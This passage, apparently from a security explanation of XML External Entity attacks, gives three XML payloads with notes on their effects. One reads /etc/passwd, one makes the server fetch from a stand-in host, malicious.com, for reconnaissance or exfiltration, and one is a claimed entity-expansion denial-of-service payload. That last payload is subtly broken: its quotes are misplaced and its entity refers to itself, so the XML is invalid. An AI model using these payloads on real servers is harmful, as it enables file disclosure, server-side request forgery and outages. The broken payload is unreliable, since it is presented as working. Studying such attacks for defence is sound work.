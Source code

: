 **Malicious XML Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<application>
  <name>&xxe;</name>
</application>
```

**Effect:**
- The `&xxe;` entity is defined to reference the `/etc/passwd` file.
- When parsed, the application replaces `&xxe;` with the contents of the specified file.
- The server's response would include the contents of `/etc/passwd`, exposing sensitive information.

### **2. Server-Side Request Forgery (SSRF)**

An attacker can direct the server to make HTTP requests to internal or external systems, potentially accessing internal services that are not exposed publicly.

**Malicious XML Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY>
  <!ENTITY xxe SYSTEM "http://malicious.com/attack">
]>
<application>
  <name>&xxe;</name>
</application>
```

**Effect:**
- The parser attempts to fetch the content from `http://malicious.com/attack`.
- This can be used to perform reconnaissance or exfiltrate data from the server.

### **3. Denial of Service (DoS)**

An attacker can craft XML data that causes the parser to consume excessive resources, leading to a DoS condition.

**Malicious XML Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY>
  <!ENTITY xxe "xxx"&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;">
]>
<application>
  <name>&xxe;</name>
</application>
```
